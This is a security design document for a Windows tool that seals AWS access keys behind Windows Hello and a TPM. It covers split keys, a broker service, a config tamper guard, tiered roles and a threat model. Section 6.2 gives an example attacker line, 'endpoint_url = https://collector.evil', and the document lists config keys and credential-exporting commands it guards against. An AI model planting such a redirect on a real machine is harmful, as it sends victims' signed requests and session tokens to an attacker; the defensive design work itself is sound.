


# aws-cli-zsp for Windows — Design

This document explains what aws-cli-zsp for Windows is built from, how each part works, what it defends against, and where its edges are. It is written for engineers and security reviewers. For installation and migration, read the [User Guide](USER-GUIDE.md); for verification, the [Test Plan](TEST-PLAN.md).

---

## 1. The problem in one paragraph

`~/.aws/credentials` holds long-lived IAM access keys in plain text. Every program running as you can read them: a compromised npm package, an IDE extension, an AI agent, a backup job. They never expire, work from anywhere, and nothing records their use. That is a **standing permission**. aws-cli-zsp removes it: the long-lived key is sealed by hardware, every program gets only a short STS session, a person approves with Windows Hello before a session exists, and every use is recorded.

## 2. Two install modes

| | **User mode** (no admin) | **Service mode** (admin install, v1.0) |
|---|---|---|
| Who runs the vault | `zsp.exe`, as you | `AwsCliZsp` Windows service, as `NT SERVICE\AwsCliZsp` |
| Binaries | `%LOCALAPPDATA%\Programs\aws-cli-zsp` | `%ProgramFiles%\aws-cli-zsp` |
| Vault | `%LOCALAPPDATA%\aws-cli-zsp` | `%ProgramData%\aws-cli-zsp\users\<SID>` (ACL: SYSTEM, Administrators, service) |
| Long-lived key sealed by | Your Windows Hello key (TPM) | **Split key**: your Hello key **and** the service's TPM key |
| Session cache | TPM-sealed files in your profile | Service memory only, never on disk |
| Audit trail | Your profile + Event Log (+ S3) | Service folder + Event Log (registered source) (+ S3) |
| New-program approval | — | Yes (Hello once per program and script) |
| Lock handling | Watcher polls the desktop | WTS session-lock events |
| Malware running as you can… | use a cached session; phish a Hello prompt to get the **long-lived key** | phish a Hello prompt to get **a session**; never the long-lived key |

Both modes run the same binary, the same engine and the same policy code. The only difference is the *host* that runs the engine and the *sealers* it gets.



## 3. Components

| File | Responsibility |
|---|---|
| `cli.go` | Command line, setup, install, migrate, watcher loop, status |
| `client.go` | Picks the backend (in-process or service), console UI, config snapshot |
| `dispatch.go` | One entry point for every operation, used by both hosts |
| `engine.go`, `settings.go` | Engine (one user's vault for one request), settings and per-profile policy |
| `vault.go`, `envelope.go`, `sealers.go` | Envelopes, key storage, split-key sealer, pins, phone copies |
| `session.go` | Issue / reuse / refuse sessions; presence, caller approval, MFA, account pin |
| `guard.go` | Config & environment tamper guard |
| `manage.go` | Check, rotate, revoke, MFA, phone, source-IP binding, tiers, adopt, restore |
| `audit.go`, `ship.go` | Hash-chained audit, Event Log hook, S3 Object Lock shipping |
| `broker.go`, `protocol.go` | Service core (per-user engines, memory cache, enrolment, lock events) and the pipe protocol |
| `aws.go`, `aws_more.go`, `sigv4.go` | Minimal STS/IAM/S3 client, AWS Signature V4, standard library only |
| `ncrypt_windows.go` | CNG/NCrypt: Windows Hello (Passport KSP), TPM (Platform Crypto Provider), DPAPI fallback |
| `platform_windows.go` | Presence, process inspection, Authenticode, console input, registry, Event Log, service client |
| `service_windows.go` | Service install/uninstall, SCM handler, pipe server, client identification, WTS |
| `platform_other.go` | Software stand-ins so the logic can be tested on Linux/macOS (refuses to run without `ZSP_INSECURE_DEV=1`) |
| `deploy/*.yaml` | CloudFormation: tiered roles, auto-revoke Lambda, audit bucket |

Dependencies: the Go standard library and `golang.org/x/sys` (Windows subtree only, vendored in `third_party/x-sys`, BSD-3-Clause). Nothing else touches your keys.

## 4. Keys and cryptography

### 4.1 Hardware keys

| Key | Where | Used for | Prompts? |
|---|---|---|---|
| **Vault key** | Microsoft Passport Key Storage Provider (Windows Hello / NGC, TPM-backed), name `<SID>//aws-cli-zsp/vault/vault-key`, RSA-2048, decrypt | Unwrapping the content key of a sealed AWS key | **Every use** (`NgcCacheType = AuthMandatory`, `PinCacheIsGestureRequired = 1`) |
| **Pin key** (user mode) | Passport KSP, `…/pin-key`, RSA-2048, sign | Signing account pins | Every use |
| **Quiet key** (user mode) | Microsoft Platform Crypto Provider (TPM 2.0), `aws-cli-zsp-quiet-key`, RSA-2048 | Session cache, audit anchor, guard baseline, phone copy, shipping key | Never |
| **Broker key** (service mode) | Platform Crypto Provider in the service account's store, else DPAPI as the service account | K2 halves, everything quiet | Never |

Private halves never leave the TPM. The Hello prompt shows a "Use Context" string that zsp sets to name the key, the session length and the command that asked.

### 4.2 Envelopes

Every sealed object is an envelope:

```
CEK  = 32 random bytes
CT   = AES-256-GCM(CEK, nonce, payload, AAD = "aws-cli-zsp/v1/<kind>/<purpose>/<profile>")
Wrapped = Sealer.Wrap(CEK)        # RSA-2048 PKCS#1 v1.5, the padding the Passport KSP supports
```

The AAD binds each envelope to its profile and purpose, so a sealed file cannot be renamed into another profile or reused as another kind of object. Wrapping needs only the public key, which is why moving a key **in** never prompts.

### 4.3 The split key (service mode)

```
CEK = K1 XOR K2
K1  wrapped to the USER's Windows Hello public key   (only the user's TPM + gesture opens it)
K2  wrapped by the SERVICE's TPM key                 (only the service opens it)
```

```mermaid
sequenceDiagram
  participant A as aws.exe
  participant C as zsp.exe (client, as you)
  participant B as AwsCliZsp service
  participant H as Your TPM (Windows Hello)
  participant S as AWS STS
  A->>C: credential_process
  C->>B: {"op":"credential","profile":"prod", config snapshot}
  Note over B: identifies the caller itself: SID, Windows session,<br/>client image, parent program (aws.exe s3 ls ← pwsh)
  B->>B: guard, presence (WTS lock), cache, caller policy
  B->>C: {"t":"hello", prompt, K1 blob}
  C->>H: NCryptDecrypt(K1) — Hello prompt shows the broker's text
  H-->>C: K1
  C-->>B: K1
  B->>B: K2 = unwrap(broker key); CEK = K1⊕K2; open key
  B->>S: GetCallerIdentity (account pin), GetSessionToken / AssumeRole
  S-->>B: session
  B->>B: cache in memory, audit, Event Log
  B-->>C: session
  C-->>A: credential_process JSON
```

Properties:

- **Malware running as you** can make the client unwrap K1 (if you approve a prompt it triggered). K1 alone is useless, so the most it can get is a session the broker chooses to issue, subject to presence, caller approval, tiers and sensitive-command rules. **It never gets the long-lived key.**
- **An administrator who takes over the service** gets K2, but still needs a Hello gesture from you for K1.
- **Enrolment** registers your Hello public key with the service once. A different key cannot re-enrol over a vault that has keys in it; only an administrator can reset a user (`zsp service reset-user`).

### 4.4 Account pin

Sealing needs only a public key, so anyone who can write the vault could seal *their own* AWS key under your profile name, and your next `aws s3 cp` would land in their bucket. The first session for each profile records the account and IAM user ARN the key belongs to. Every later session checks the long-lived key with `sts:GetCallerIdentity` **before** issuing anything. A mismatch is refused and audited as `pin-mismatch`. In user mode the pin is signed by the Hello pin key and verified against the public key read live from the TPM; in service mode it lives in the ACL-protected vault.

## 5. How a credential request is decided



## 6. v0.2 mitigations

### 6.1 Presence on reuse, clear on lock
A cached **Hello** session is handed out only while the Windows session is unlocked and has seen input within `reuse_idle_minutes` (default 30; `reuse-presence lock` checks the lock only; `off` disables). Write-tier sessions use the stricter `idle_minutes` (default 5). Locking the workstation drops Hello sessions (user mode: the watcher; service mode: `WTS_SESSION_LOCK`). **Phone-approved** sessions are exempt by design: the person who approved them is, by definition, away from the PC.

Lock state is authoritative in both modes. Idle time is authoritative in user mode; in service mode it comes from WTS when Windows reports it, otherwise from the client (advisory: lying "present" only produces a Hello prompt nobody answers).

### 6.2 Config guard
Before handing out any credential, zsp analyses the config file the AWS CLI will read and the requesting process's environment:

- `endpoint_url`, `ca_bundle`, proxy keys, `[services …]` blocks, `use_fips_endpoint`, `ignore_configured_endpoint_urls`;
- on zsp profiles: `role_arn`, `source_profile`, `credential_source`, SSO keys, static keys, and a `credential_process` that is not zsp;
- environment: `AWS_ENDPOINT_URL*`, `AWS_CA_BUNDLE`, `HTTP(S)_PROXY`, `ALL_PROXY`, `AWS_CONFIG_FILE`, `AWS_SHARED_CREDENTIALS_FILE`, `SSL_CERT_FILE`, `REQUESTS_CA_BUNDLE`, `NODE_EXTRA_CA_CERTS`, FIPS/dual-stack switches.

Each finding must match an **approved baseline** (Hello-gated, `zsp guard approve`). This stops the realistic attack: a one-shot malicious install script that adds `endpoint_url = https://collector.evil` and exits, after which your own `aws` commands would deliver signed requests and session tokens to the attacker for weeks. The watcher additionally puts back any changed `credential_process` line and notifies you.

### 6.3 Event Log and off-box audit
Every audit entry is written to the Application log (source `aws-cli-zsp`; 100 info, 200 warning/refusal, 300 error/tamper). Standard users can write but not clear it; clearing needs admin and is itself logged (event 104/1102). Optionally, `zsp ship setup` sends new entries every five minutes (and immediately after any refusal) to an S3 bucket with **Object Lock in compliance mode**, using a key that can only `PutObject` under one prefix (`deploy/audit-bucket.yaml`). Each object carries the chain hashes; if the local chain no longer matches what was shipped, a `-TAMPER.json` object and an Event Log error are written.

### 6.4 Source-IP binding (`zsp netbind`)
Adds an inline deny policy: everything the user's credentials do is denied from outside the given CIDRs, except calls AWS services make on your behalf (`aws:ViaAWSService`) and the policy-management calls needed to undo it. Applies to tier roles too, scoped to this user's zsp sessions with `aws:userid like *:zsp-<user>-*`. zsp checks your current public IP first and refuses to lock you out.

### 6.5 Phone-only MFA (`zsp mfa enable --device phone`)
The second factor lives on your phone, not in the vault. Every new session needs Windows Hello **and** a 6-digit code typed at the PC (console, or a small dialog when there is no console). Admin-level malware on the PC cannot mint MFA without your phone.

## 7. v0.3 tiered access

`deploy/tiered-roles.yaml` creates `zsp-read-<user>` (ReadOnlyAccess) and `zsp-write-<user>` (PowerUserAccess by default). `zsp tier set` wires two AWS profiles:

| AWS profile | Tier | Session | Approval |
|---|---|---|---|
| `prod` | read role | your normal length (1 h default) | one Hello per session |
| `prod-write` | write role | 15 min (max 1 h) | **fresh Hello for every new session**; reuse needs presence within 5 min |

Sessions are created with `AssumeRole` using the long-lived key directly (not role chaining), with MFA when configured, and session name `zsp-<user>-<profile>-r|w`. Malware riding your cached read session can look but not touch, and a read session cannot assume the write role (the trust policy names the user, not the read role).

**Why the zsp user may put inline policies on the roles.** `zsp revoke` and `zsp netbind` need `iam:PutRolePolicy` on the two roles. To make that safe, each role has a **permissions boundary equal to its own managed policy**, and the user is explicitly denied changing boundaries, trust policies or attached policies. An inline policy can therefore only restrict the role, never widen it.

**Scoped revoke.** `zsp revoke` attaches `Deny * if aws:TokenIssueTime < now` to the user, and the same with `aws:userid like *:zsp-<user>-*` to each role, so other people's sessions of a shared role are untouched.

**Auto-revoke** (`deploy/auto-revoke.yaml`): an EventBridge rule on CloudTrail management events made with temporary credentials (`ASIA…`) invokes a Lambda. If a watched user's session, or a `zsp-<user>-` role session, is used from outside the allowed networks, it attaches the revoke policy and notifies SNS. Read-only events are included (`ENABLED_WITH_ALL_CLOUDTRAIL_MANAGEMENT_EVENTS`). EventBridge is regional: deploy in us-east-1 and every region you use.

## 8. v1.0 broker service

### 8.1 Install
`zsp install --service` (elevated):
1. Copies `zsp.exe` and `zspw.exe` to `%ProgramFiles%\aws-cli-zsp` (writable by administrators only).
2. Creates the `AwsCliZsp` service: own process, automatic start, account `NT SERVICE\AwsCliZsp` (a virtual account with its own SID and no password; `--service-account LocalSystem` is the fallback), unrestricted service SID, restart-on-failure.
3. Creates `%ProgramData%\aws-cli-zsp` owned by Administrators with a **protected** DACL: SYSTEM, Administrators and the service SID only. A folder pre-created by anyone else is moved aside (squatting defence).
4. Registers the Event Log source; adds the watcher to `HKLM\…\Run` for every user; starts the service.

Upgrades run the same command: the service is stopped, binaries replaced, service started.

### 8.2 The named pipe
`\\.\pipe\aws-cli-zsp`, byte mode, `PIPE_REJECT_REMOTE_CLIENTS`, first instance created with `FILE_FLAG_FIRST_PIPE_INSTANCE`. DACL `D:P(D;;GA;;;NU)(A;;GA;;;SY)(A;;GA;;;BA)(A;;GRGW;;;AU)`: network logons denied, local authenticated users may connect.

For each connection the broker:
1. reads the client PID, impersonates the client, reads the **token's user SID** and Windows session ID;
2. while impersonating (so it uses *your* rights, not the service's), reads the client's image path and the parent program's image, command line, Authenticode status and hash;
3. reverts; if reverting fails the goroutine exits on that locked OS thread, which destroys the thread;
4. refuses any client that is not `zsp.exe`/`zspw.exe` from the service's own folder.

The **client** refuses to talk to a pipe whose server PID differs from the PID the Service Control Manager reports for `AwsCliZsp`, so a squatter (possible only while the service is down) never receives anything.

### 8.3 Protocol
Newline-delimited JSON, one request per connection. The broker can call back before answering: `print`, `ask` (MFA code), `hello` (unwrap K1 with this prompt). Five-minute watchdog per connection; 8 MB cap per connection.

### 8.4 Caller approval
The first time a program uses a profile, a Hello approval is required even if a session is cached. Identity is the image path for Authenticode-signed programs (updates in place stay trusted), path + SHA-256 for unsigned ones. For interpreters (python, node, pwsh, powershell, cmd, bash, java, dotnet, …) the script path is part of the identity, and **inline code** (`python -c`, `pwsh -Command`, `node -e`, `cmd /c`) is never remembered. `zsp callers forget` clears the list.

**Sensitive commands** always need a fresh approval, in both modes: `configure export-credentials`, `sts assume-role*`, `sts get-federation-token`, `sts get-session-token`, `iam create-access-key`, `ecr get-login-password`, `ecr get-authorization-token`, `codeartifact get-authorization-token`, `sso get-role-credentials` (configurable).

## 9. What is stored where

| Item | User mode | Service mode | Protection |
|---|---|---|---|
| Long-lived key + MFA seed | `keys\<p>.sealed` | `users\<SID>\keys\<p>.sealed` | Hello / split key |
| Quarantined new key | `keys\<p>.incoming.sealed` | same | Hello / split key |
| Sessions | `sessions\<p>~<tier>.sealed` | memory | quiet key / process memory |
| Phone copy (no MFA seed) | `phone\<p>.sealed` | same | quiet key; only created while AWS requires MFA |
| Account pin | `pins\<p>.json` (signed) | same (ACL) | Hello signature / ACL |
| Settings & tier policy | `settings.json` | same (ACL) | Hello approval for every change |
| Guard baseline | `guard.sealed` | same | quiet key + Hello to change |
| Known callers | — | `callers.json` | ACL |
| Audit | `audit.jsonl` + `anchor.sealed` | same | hash chain + Event Log + S3 |
| Shipping key | `ship-creds.sealed` | same | quiet key |

`~/.aws/credentials` holds no keys for profiles in the vault. `~/.aws/config` holds `credential_process = "…\zsp.exe" credential-process --profile <p>` (and `--tier write` for write profiles).

## 10. Threat model

| Threat | User mode | Service mode |
|---|---|---|
| Stolen laptop, backup, copy of `~/.aws` or the vault | ✅ ciphertext bound to this PC's TPM | ✅ same |
| Script/package/agent reading `~/.aws/credentials` | ✅ no keys there | ✅ |
| Program wants the long-lived key | ⚠️ can phish a Hello prompt (Hello keys are per-user, not per-app) | ✅ never leaves the service |
| Malware as you, while a session is cached | ⚠️ can decrypt the cache; limited by short sessions, tiers, netbind, auto-revoke | ✅ cache unreadable; it can only *ask*: lock, idle, new-program and sensitive-command checks apply |
| Malware as you spawning `aws.exe` (a known caller) for a cached session | ⚠️ | ⚠️ gets that session (read tier if tiers are on); `export-credentials` etc. need Hello |
| One-shot script adding `endpoint_url` / proxy / CA | ✅ guard refuses | ✅ |
| Malware rewriting `~/.aws/config` `credential_process` | ⚠️ watcher reverts, doctor shows | ✅ fake client is refused by the broker; watcher reverts |
| Malware swapping in its own key | ✅ account pin | ✅ |
| Malware rewriting the audit trail | ⚠️ chain + anchor catch naive edits; Event Log and S3 copies remain | ✅ files ACL-protected; Event Log; S3 |
| Malware weakening settings | ⚠️ settings file is yours; changes via zsp need Hello | ✅ ACL + Hello |
| Key copied off the PC some other way | ✅ with `mfa enforce`, useless without MFA; netbind; auto-revoke | ✅ |
| Session token exfiltrated | ⚠️ valid until expiry unless netbind / auto-revoke / revoke | same |
| Admin/SYSTEM malware | ❌ | ⚠️ gets K2 but still needs your Hello gesture for K1; phone-only MFA means it also needs your phone |

## 11. Known limitations

- **Not yet run on real Windows hardware.** The Windows Hello, TPM, service, pipe and WTS code compiles for x64 and ARM64 and follows the documented APIs, but it has only been exercised through the platform-neutral tests (software key stand-ins on Linux). The [Test Plan](TEST-PLAN.md) is the path to confidence.
- **Hello keys are per-user, not per-app.** Any process running as you can open your Passport key and show a prompt with misleading text. Service mode makes the payoff small (a session, not the key); user mode does not.
- **Resetting Windows Hello** ("I forgot my PIN") deletes the NGC keys. Sealed keys are then unrecoverable by design; create new access keys in IAM and run `zsp setup` again (service mode: `zsp service reset-user` first).
- **Known callers can be reused.** In service mode malware can run `aws.exe` (already approved) to obtain a cached session. Tiers, presence, the sensitive-command list, short sessions, netbind and auto-revoke are the containment.
- **Session-name prefix overlap.** `zsp-richard-*` also matches a user called `richard-admin`; a role-scoped revoke for one may hit the other's zsp sessions.
- **Idle time in service mode** is advisory when Windows does not report it for console sessions; lock state is always authoritative.
- **Auto-revoke is regional** and acts after the first call is logged (typically under a minute).
- **AWS CLI v1** is not supported (credential_process handling); use v2.
- Binaries are **unsigned** until the SignPath pipeline is set up ([SIGNING.md](SIGNING.md)); expect SmartScreen warnings and verify SHA-256 sums.

## 12. Decisions and alternatives

| Decision | Why | Alternatives considered |
|---|---|---|
| NCrypt Passport KSP rather than the WebAuthn platform authenticator | Gives an RSA key we can decrypt with in the TPM behind Hello, with a custom prompt, from a CLI. WebAuthn `hmac-secret`/PRF on Windows Hello is not universally available to native apps. | WebAuthn PRF; FIDO2 security key (good future option: K1 on a YubiKey) |
| Split key in service mode | Neither the user's session nor the service alone can open a key | Service-only TPM key (admin compromise = all keys); Hello-only (user malware = key) |
| Virtual service account | Unique SID, no password, least privilege | LocalSystem (offered as fallback); LocalService (shared by many services) |
| Sessions in memory (service) | Nothing to steal from disk | Sealed files (user mode needs them across processes) |
| Standard library + x/sys only | Smallest supply chain for a tool that holds production keys | AWS SDK for Go (large dependency tree) |
| GetSessionToken / AssumeRole with the long-lived key | Not role chaining, so role max duration applies; MFA usable | Chaining from a base session (1 h cap, MFA context lost) |
| Approve settings changes with Hello | Malware cannot quietly weaken policy through zsp | Admin-only settings (breaks user mode) |
